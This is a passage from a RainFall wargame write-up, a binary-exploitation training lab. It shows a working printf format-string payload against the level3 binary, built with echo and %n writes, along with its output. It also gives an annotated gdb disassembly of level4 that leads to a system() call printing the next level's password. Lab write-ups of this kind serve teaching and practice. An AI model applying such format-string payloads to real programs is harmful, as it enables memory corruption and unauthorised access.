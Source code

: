 Yay! We hit the printf() call, but it didn't work, lets put directly the address before the system() call (`0x0804850c`)

```bash
level3@RainFall:~$ echo -n -e '\x5c\xf4\xff\xbf''\x5d\xf4\xff\xbf''\x5e\xf4\xff\xbf''\x5f\xf4\xff\xbf''%252x%4$n''%121x%5$n''%127x%6$n''%260x%7$n' > /tmp/input

level3@RainFall:~$ cat /tmp/input  | ./level3
\�]�^�_�                                                                                                                                                                                                                                                         200                                                                                                                 b7fd1ac0                                                                                                                       b7ff37d0                                                                                                                                                                                                                                                            bffff45c
```

Todo: redact this

## Level4

- [`objdump -d` output](http://...)

### ASM Interpretation

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:	push   ebp
   0x080484a8 <+1>:	mov    ebp,esp
   0x080484aa <+3>:	and    esp,0xfffffff0
   0x080484ad <+6>:	call   0x8048457 <n> ; n()
   0x080484b2 <+11>:	leave
   0x080484b3 <+12>:	ret
End of assembler dump.

(gdb) disas n
Dump of assembler code for function n:
   0x08048457 <+0>:	push   ebp
   0x08048458 <+1>:	mov    ebp,esp
   0x0804845a <+3>:	sub    esp,0x218 ; Allocate 0x218 (536) bytes on the stack
   0x08048460 <+9>:	mov    eax,ds:0x8049804 ; exa to stdout@libc
   0x08048465 <+14>:	mov    DWORD PTR [esp+0x8],eax ; Set 3st argument of fgets() to stdout
   0x08048469 <+18>:	mov    DWORD PTR [esp+0x4],0x200 ; Set 2nd argument of fgets() to 512
   0x08048471 <+26>:	lea    eax,[ebp-0x208] ; Set 16th (520th last) byte of the stack to eax
   0x08048477 <+32>:	mov    DWORD PTR [esp],eax ; Set eax as 1st argument of fgets()
   0x0804847a <+35>:	call   0x8048350 <fgets@plt> ; fgets(ebp[-0x208 / -520] / (16th last byte of the stack), 0x200 / 512, stdout);
   0x0804847f <+40>:	lea    eax,[ebp-0x208] ; Set eax to 16th (520th last) byte of the stack
   0x08048485 <+46>:	mov    DWORD PTR [esp],eax ; Set eax as argument of p()
   0x08048488 <+49>:	call   0x8048444 <p> ; Call p(eax) / p(&stack[16])
   0x0804848d <+54>:	mov    eax,ds:0x8049810 ; printf "%u", *0x8049810 -> "0" ; // unsigned int m = 0;
   0x08048492 <+59>:	cmp    eax,0x1025544 ; compare eax with 0x1025544 / 16930116 in decimal
   0x08048497 <+64>:	jne    0x80484a5 <n+78> ; if not equal, goto return of the function
   0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590 ; (gdb) printf "%s", 0x8048590 -> "/bin/cat /home/user/level5/.pass"
   0x080484a0 <+73>:	call   0x8048360 <system@plt> ; call system("/bin/cat /home/user/level5/.pass")
   0x080484a5 <+78>:	leave
   0x080484a6 <+79>:	ret

(gdb)disas p
Dump of assembler code for function p:
```